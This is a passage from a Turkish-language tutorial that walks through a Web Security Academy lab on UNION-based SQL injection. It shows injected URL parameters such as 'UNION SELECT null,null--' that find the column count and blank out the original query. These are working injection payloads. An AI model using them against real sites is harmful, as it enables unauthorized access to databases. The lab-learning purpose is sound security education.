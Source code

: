 UNION ifadesinden sonraki SELECT sorgusunda kolon sayısını ikiye çıkardığımızda hatanın çözüldüğünü görmekteyiz. Dolayısıyla kolon sayısını da bulmuş olduk.

```html
academy.net/filter?category=Corporat' UNION SELECT null,null--
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-6.png)

Bizden önceki SELECT sorgusundan herhangi bir veri gelmemesi için de o kısma alakasız bir değer vererek veri gelmesini önleyebiliriz, bu sayede sadece istediğimiz verilerin gelmesini sağlayarak daha temiz bir sayfa üzerinde çalışabiliriz.

```html
academy.net/filter?category=alakasizbirdeger' UNION SELECT null,null--
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-7.png)
